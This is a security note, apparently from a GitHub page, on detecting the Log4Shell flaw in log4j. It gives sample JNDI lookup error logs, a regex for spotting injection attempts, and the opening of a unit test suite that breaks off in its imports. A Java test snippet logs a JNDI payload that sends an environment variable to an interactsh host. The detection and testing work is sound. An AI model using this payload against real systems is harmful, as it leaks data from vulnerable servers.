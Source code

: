 Source: https://twitter.com/0x6772/status/1471204834879672322

The following exception is raised when a DNS resolution failed, for example, if a not allowed character is used in sub domain name:

```text
2021-12-14 07:58:14,165 main WARN Error looking up JNDI resource [dns://ab'456.c6s40maa89k6h46f3ar0cghrysoyyyyyn.interactsh.com]. javax.naming.ConfigurationException: Unknown DNS server: ab'456.c6s40maa89k6h46f3ar0cghrysoyyyyyn.interactsh.com [Root exception is java.net.UnknownHostException: No such host is known (ab'456.c6s40maa89k6h46f3ar0cghrysoyyyyyn.interactsh.com)]; remaining name '.'
	at jdk.naming.dns/com.sun.jndi.dns.DnsClient.<init>(DnsClient.java:130)
	at jdk.naming.dns/com.sun.jndi.dns.Resolver.<init>(Resolver.java:61)
	at jdk.naming.dns/com.sun.jndi.dns.DnsContext.getResolver(DnsContext.jav
...
```

When the resolution succeed then the following exception can occur:

```
2021-12-14 07:57:58,989 main WARN Error looking up JNDI resource [dns://ab-456.c6s40maa89k6h46f3ar0cghrysoyyyyyn.interactsh.com]. javax.naming.CommunicationException: DNS error [Root exception is java.net.SocketTimeoutException: Receive timed out]; remaining name '.'
	at jdk.naming.dns/com.sun.jndi.dns.DnsClient.query(DnsClient.java:316)
	at jdk.naming.dns/com.sun.jndi.dns.Resolver.query(Resolver.java:81)
	at jdk.naming.dns/com.sun.jndi.dns.DnsContext.c_lookup(DnsContext.java:290)
	at java.naming/com.sun.jndi.toolkit.ctx.ComponentContext.p_lookup(ComponentContext.java:542)
	at java.naming/com.sun.jndi.toolkit.ctx.PartialCompositeContext.lookup(PartialCompositeContext.java:177)
	at java.naming/com.sun.jndi.toolkit.url.GenericURLContext.lookup(Generic
```


So, the following regex can be use to identify injection tentative (failed and some succeed) - [Live Example](https://regexr.com/6bgak):

```text
(Error\slooking\sup\sJNDI\sresource\s\[.*?\])
```

Code for the DNS test - [InteractSH](https://github.com/projectdiscovery/interactsh) Github repository:

```java
Logger log = LogManager.getLogger(Sandbox2.class);
System.out.printf("LOG4J2 version: %s\n", log.getClass().getPackage().getImplementationVersion());
System.out.printf("Java version  : %s\n", System.getProperty("java.version"));
//On linux use ${env:USER}
log.info("${jndi:dns://${env:USERNAME}.xxxxx.interactsh.com}");
```


# Unit test case for CVE-2021-44228

The following unit tests suite can be added to a project to continuously *ensure that the version used of log4j-core is not exposed to log4shell vulnerability.*

```java
package eu.righettod;

import org.apache.logging.log4j.Level;
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
import org.apache.logging.log4j.core.appender.ConsoleAppender;
import org.apache.logging.log4j.core.config.Configurator;
import org.apache.logging.log4j.core.config.builder.api.AppenderComponentBuilder;
import org.apache.logging.log4j.core.config.builder.api.ConfigurationBuilder;
import org.apache.logging.log4j.core.config.builder.api.ConfigurationBuilderFactory;
import org.apache.logging.log4j.core.config.builder.api.RootLoggerComponentBuilder;
import org.apache.logging.log4j.core.config.builder.impl.BuiltConfiguration;
import org.junit.After;
```